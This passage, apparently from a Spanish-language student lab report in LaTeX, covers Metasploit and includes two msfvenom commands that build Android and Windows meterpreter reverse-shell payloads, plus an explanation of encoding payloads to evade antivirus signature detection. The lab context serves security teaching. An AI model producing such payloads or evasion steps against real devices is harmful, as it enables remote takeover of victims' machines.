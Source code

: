 Por último, se puede tomar una captura de pantalla del escritorio activo o cambiar parámetros del mismo.

\subsection{Analizando los archivos con \emph{VirusTotal}}

A continuación se indica el comando que se utilizó para generar el archivo con el payload y la salida que se obtuvo al analizarlo con \href{http://www.virustotal.com/#/home/upload}{VirusTotal} 

\begin{lstlisting}[title={Aplicación para Android}]
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.5 LPORT=12345 -o ~/app.apk
\end{lstlisting}

\begin{figure}[h]
    \centering
    \texttt{[image: virustotal\_android]}
    \caption{Salida de VirusTotal para la aplicación de Android}
\end{figure}

\begin{lstlisting}[title={Aplicación para Windows}]
    msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=192.168.0.5 LPORT=12345 -o ~/app.exe
\end{lstlisting}

\begin{figure}[H]
    \centering
    \texttt{[image: virustotal\_windows]}
    \caption{Salida de VirusTotal para la aplicación de Windows}
\end{figure}

\subsection{Evadir antivirus}

\emph{¿Qué herramienta(s) provee metasploit para evadir la detección que se realizó en el punto 5?} 

Una herramienta que brinda el \emph{framework} viene incluida (en las últimas versiones de \emph{metasploit}) en la aplicación \texttt{msfvenom} - esta es la posibilidad de \textbf{codificar la firma del virus}.

Una de las técnicas que implementan los antivirus para reconocer archivos maliciosos es el reconocimiento de sus "firmas". Mayromente, verifican las primeras líneas del archivo en busca de algún patrón ya conocido de un cierto tipo de virus. Así que una forma sencilla de sortear los antivirus consiste en cambiar la codificación del archivo (sin cambiar su funcionalidad) para que no pase desapercibido \autocite{Signatures}.

